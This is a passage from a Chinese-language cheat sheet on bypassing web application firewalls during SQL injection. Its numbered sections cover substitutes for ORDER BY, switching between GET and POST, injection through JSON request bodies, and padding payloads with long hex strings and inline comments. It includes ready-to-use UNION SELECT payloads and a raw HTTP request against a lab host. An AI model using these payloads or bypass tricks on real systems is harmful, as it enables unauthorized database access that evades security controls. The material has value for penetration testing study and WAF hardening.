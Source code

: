 ## 0x27 order by 绕过
当 order by 被过滤时，无法猜解字段数，此时可以使用 into 变量名进行代替。  
```sql
select * from users where id=1 into @a,@b,@c,@d;
```

## 0x28 相同参数请求绕过
waf 在对危险字符进行检测的时候，分别为 post 请求和 get 请求设定了不同的匹配规则，请求被拦截，变换请求方式有几率能绕过检测。如果程序中能同时接收 get、post 如果 waf 只对 get 进行匹配拦截，没有对 post 进行拦截，就可以变换请求方式绕过。  
```php
<?php
echo $_REQUEST['id'];
?>
```
在用request接收时，POST的优先级是大于GET的，所以我们在一个数据包中既用GET传参，又用POST传参，后台一般会接收POST提交的参数，这样可以绕过只检测GET的WAF。  
```php
<?php
echo $_GET['id'];
?>
```
如果一个程序中，后台代码只能接收GET传参，但是我们用POST发送数据包，此时有些WAF具有特性：当GET和POST同时存在时，优先匹配POST。  
这时，WAF检测不到我们通过GET传输的payload，从而达到绕过WAF的目的。  

## 0x29 application/json 或者 text/xml 绕过
有些程序是 json 提交参数，程序也是 json 接收再拼接到 SQL 执行 json 格式通常不会被拦截。所以可以绕过 waf。请求报文格式如下：  
```bash
POST /06/vul/sqli/sqli_id.php HTTP/1.1
Host: 192.168.0.115
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type:application/json
Content-Length: 38
Origin: http://192.168.0.115
Connection: close
Referer: http://192.168.0.115/06/vul/sqli/sqli_id.php
Cookie: PHPSESSID=e6sa76lft65q3fd25bilbc49v3; security_level=0
Upgrade-Insecure-Requests: 1

{'id':1 union select 1,2,3,'submit':1}
```
同样 text/xml 也不会被拦截。但是要注意，程序代码端要有对应的json_decode解码，而不是我们传了json它自动就会解码。

## 0x30 填充大量字符绕过
burp url编码快捷键：ctrl+u。 
```sql
id=1 and (select 1)=(select
0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*/1,user()

#post编码后
1+and+(select+1)%3d(select+0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*/1,user()&submit=1

id=1+and+(select+1)and+(select+0xA*1000)/*!union*//*!select*/+1,user()--+&submit=%E6%9F%A5%E8%AF%A2
```

